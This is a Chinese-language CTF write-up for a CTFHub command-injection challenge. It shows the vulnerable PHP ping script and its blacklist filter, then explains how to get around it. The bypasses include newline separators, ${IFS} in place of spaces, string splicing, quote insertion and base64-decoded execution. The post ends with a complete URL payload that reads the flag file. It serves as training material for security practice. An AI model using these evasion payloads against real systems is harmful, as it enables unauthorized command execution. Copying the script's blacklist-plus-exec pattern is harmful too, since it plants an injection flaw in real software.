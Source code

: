 ```yaml
---
layout:     post
title:      "CTFHUB 技能树-Web-RCE-综合过滤 wp"
subtitle:   ""
date:       2020-03-05 21:20:00
author:     "WuJ"
header-img: "img/post-bg-ctfhub.jpg"
header-mask: 0.25
tags:
    - CTFHUB
    - writeup
catalog: true
---
```




## 题目考点

- 命令执行绕过

--------

## 解题思路

![Xnip2020-03-05_20-57-49](https://tva1.sinaimg.cn/large/00831rSTgy1gcjclhhorrj310y0u0jwt.jpg)

​		给了源码，发现过滤了 `| & ; 空格 cat flag ctfhub`

​		如果输入上述符号或命令，只会回显其本身而不会被执行，需要一个个绕过

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

#### 命令分隔符

​		因为 `| 和 ;` 被过滤，首先要想办法分隔命令，可以使用多种绕过方法，一般用换行即 `%0a %0d` 即可。当然，得抓包修改，直接敲在输入框里肯定不行。

![Xnip2020-03-05_21-00-11](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcnz5t9dj31310u0qtk.jpg)

我们发现 `flag_is_here` 文件夹，下一步是想办法进去

#### 绕过空格

方法很多，一般可以使用 `${IFS}`，更多请参考谷歌

#### 绕过黑名单

1. 拼接绕过

   ```shell
   ~$ echo "hello world" > flag
   ~$ a=c;b=at;c=flag;$a$b $c
   hello world
   ```

2. 单双引号

   ```shell
   ~$ c''at f''lag
   hello world
   ```

3. base64绕过

   ```shell
   ~$ `echo "Y2F0IGZsYWc="|base64 -d`
   hello world
   ```

   ![Xnip2020-03-05_21-10-57](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcywtw6kj31cu0u0qkt.jpg)

   找到 flag 文件，运用上述知识继续读 flag

   ```php
   /?ip=%0acd${IFS}f''lag_is_here%0ac''at${IFS}f''lag_244281822710491.php
   ```

![Xnip2020-03-05_21-12-30](https://tva1.sinaimg.cn/large/00831rSTgy1gcjd2bvlntj31cl0u0ngq.jpg)

